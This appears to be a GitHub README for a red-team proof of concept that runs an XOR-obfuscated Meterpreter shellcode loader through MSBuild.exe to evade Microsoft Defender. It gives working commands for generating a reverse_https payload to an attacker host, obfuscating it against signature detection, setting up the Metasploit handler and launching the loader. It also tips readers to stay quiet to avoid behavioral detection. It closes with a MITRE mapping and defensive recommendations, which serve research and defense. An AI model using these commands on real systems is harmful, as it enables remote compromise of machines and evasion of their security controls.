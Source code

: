 # Shellcode Loader via MSBuild-Compatible C# Application

## Overview

This repository contains a proof-of-concept red team activity that demonstrates how to execute a malicious payload in memory using `MSBuild.exe`, a trusted signed Windows binary. The project simulates a **Living Off the Land Binary** (LOLBin) attack technique in which a C# shellcode loader is compiled and executed through MSBuild, bypassing (temporarily) Microsoft Defender through in-memory execution and obfuscation.

The payload establishes a reverse HTTPS connection to a Metasploit C2 server. This technique aligns with [T1127.001 – Trusted Developer Utilities Proxy Execution: MSBuild](https://attack.mitre.org/techniques/T1127/001/) and is intended for educational and research purposes in a controlled environment.

**You can refer to [this video](https://youtu.be/E3ygajc9rsM) to see how I pursued the attack in a controlled environment.**

## Disclaimer

This project is intended **strictly for educational and authorized security research purposes**. All activities must be conducted in a controlled, isolated environment with proper authorization.

Do not use these techniques on systems you do not own or lack explicit permission to test. Unauthorized use may violate laws and ethical guidelines, and could result in disciplinary or legal action.

The author assumes no responsibility for misuse or damage resulting from the use of this code.

## Prerequisites

To successfully compile and execute this project, the following tools and environment configurations are required:

- Windows 10 Pro virtual machine
- Microsoft Visual Studio with `.NET Framework 4.7.2` or higher installed
- Access to `MSBuild.exe` (commonly located under Visual Studio installation path)
- Metasploit Framework installed on a Linux-based attack machine
- Working knowledge of C#, MSBuild, and basic red team operations
- Network configuration that allows reverse HTTPS communication between victim and C2 server

This project was tested in a QEMU Virtual Machine with an `non-activated Windows 10 Pro Version 22H2 and OS build 19045.2965`.

## Files

This project includes three primary files required for execution. Each plays a critical role in the simulation workflow.

### C# Shellcode Loader

The C# program used in this simulation serves as a minimalist shellcode loader, purpose-built to be executed through MSBuild.exe as part of a Living Off the Land Binary (LOLBin) strategy. Its primary objective is to allocate executable memory within the current process, decrypt a malicious payload from an external file, and execute it in-memory via a newly created thread. This approach is particularly effective for bypassing Microsoft Windows Defender, as it avoids writing executables to disk and leverages native Windows API calls, often trusted by endpoint protection systems

It performs the following actions:

- Reads and decrypts an XOR-obfuscated payload from config.bin
- Dynamically loads native Windows API functions (NtAllocateVirtualMemory, CreateThread)
- llocates executable memory in the current process
- Copies the shellcode to memory and executes it in a new thread

**The shellcode is never written to disk after decryption**, allowing for stealthy in-memory execution.

### MSBuild Project File

The C# build file used in this simulation is an MSBuild project file, defined in XML format. It serves as a build automation script that instructs MSBuild.exe (the Microsoft Build Engine) on how to compile and execute the C# shellcode loader. Functionally, it plays a role similar to a Makefile in C/C++ development environments.

Executing this file with MSBuild.exe triggers both compilation and execution phases. This enables execution through a trusted binary, facilitating LOLBin abuse and Defender evasion.

### Encrypted Payload

The final component of the attack chain is the malicious payload, which is responsible for establishing a reverse shell to a remote Command and Control (C2) server. This payload is generated using the ‘msfvenom’ utility, a standard tool from the Metasploit Framework used to craft custom shellcode for various platforms and architectures

To generate the raw payload we use the following command:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker-ip> LPORT=<port> -f raw -o config.bin
```

To encrypt the payload, we use the following command:

```bash
xxd -p config.bin | tr -d '\n' | fold -w2 | while read byte; do printf "%02x" $(( 0x$byte ^ 0xAA )); done | xxd -r -p > config.bin
```

A quick explanaition of each part of the encryption script:

- `xxd -p config.bin`: Converts the binary file `config.bin` into a plain hexadecimal string with no addresses.
- `tr -d '\n'`: Removes all newlines from the hex string to create a continuous byte stream.
- `fold -w2`: Breaks the string into two-character groups
- **while; do; done block**: Reads each byte, applies XOR with 0xAA, and prints the result in two-digit hexadecimal format.
- `xxd -r -p > config.bin`: Converts the hex stream back into binary format and writes it back to `config.bin`

This simple obfuscation helps temporarily bypass static signature detection by antivirus software such as Microsoft Defender. This approach doesn’t offer strong cryptographic protection, therefore, more robust encryption schemes like AES are recommended for more advanced attacks.

## roof of Concept Execution

1. On your Kali Linux or Metasploit-enabled system, run:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <your-ip>
set LPORT <your-port>
run -j
```

2. On the target Windows machine, execute the .csproj file using MSBuild.

```ps
"C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\MSBuild.exe" main.csproj /p:Configuration=Release /t:Run
```

3. Once the session is active, interaction with the system is possible using Meterpreter. However, minimal activity is recommended to avoid triggering Defender’s behavioral detection,

## Mitre Att&ck Mapping

This proof of concept simulates several tactics and techniques as defined in the MITRE ATT&CK Framework, commonly associated with real-world adversary behavior:

|      **Tactic**     |                             **Technique**                            |                                        **Justification**                                        |
|:-------------------:|:--------------------------------------------------------------------:|:-----------------------------------------------------------------------------------------------:|
|   Defense Evasion   | T1127.001 – Trusted Developer Utilities Proxy Execution: MSBuild     | The payload is compiled and executed via `MSBuild.exe`, a trusted signed Windows binary.        |
|   Defense Evasion   | T1027.013 -  Obfuscated Files or Information: Encrypted/Encoded File | The shellcode is XOR-obfuscated to bypass static signature detection by antivirus tools.        |
|   Defense Evasion   | T1027.009 - Obfuscated Files or Information: Embedded Payloads       | The shellcode is loaded into memory from an encrypted file and executed without writing to disk post-load. |
|   Defense Evasion   | T1620 - Reflective Code Loading                                      | The shellcode is dynamically loaded into memory and executed from a new thread within the same process using native Windows API functions.            |
| Command and Control | T1071.001 - Application Layer Protocol: Web Protocols (HTTPS)        | TThe payload establishes a reverse HTTPS session with the attacker's Metasploit handler.       |

## Defensive Recommendations

To detect and mitigate techniques demonstrated in this proof of concept, defenders should adopt a layered security approach that incorporates both prevention and detection strategies. Below are key recommendations.

- Implement behavioral monitoring to detect LOLBin abuse
- Use Sysmon or EDR solutions to monitor:
   - Execution of uncommon binaries like MSBuild.exe outside development environments
   - Memory allocation with `PAGE_EXECUTE_READWRITE` permissions
   - Thread creation from suspicious memory regions
- Enforce application whitelisting using tools like AppLocker or Windows Defender Application Control (WDAC) to block execution of `MSBuild.exe` by non-developer users or not allowed/common environments.
- Monitor and restrict access to developer tools on systems where they are not explicitly required.
- Inspect outbound HTTPS traffic for patterns resembling reverse shell connections
- Use proxy logging and TLS inspection (where appropriate) to monitor C2-like behavior
- Monitor Windows Defender and Event Viewer logs for behavior-based detections
